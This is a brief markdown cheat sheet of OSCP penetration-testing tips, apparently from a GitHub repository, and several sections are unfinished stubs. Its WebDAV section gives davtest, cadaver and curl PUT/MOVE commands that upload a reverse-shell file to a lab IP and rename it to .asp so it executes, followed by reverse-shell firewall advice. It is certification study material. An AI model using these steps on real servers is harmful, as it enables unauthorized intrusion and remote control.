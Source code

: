 # OSCP Tips

## Services

SSH (22)
* Fingerprint server/OS, SSH key

HTTP (80|8080)
* Curl for HTTP header

Telnet (23)
* Stuff

SMTP (25)
* Stuff

NETBIOS (139)
* Stuff

SMB (445)
* [MS08-067] NetAPI module in Windows SMB (

SAMBA

MSRPC (135)
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

WEBDAV vulns - using tools
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

## Reverse Shell Tips

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).
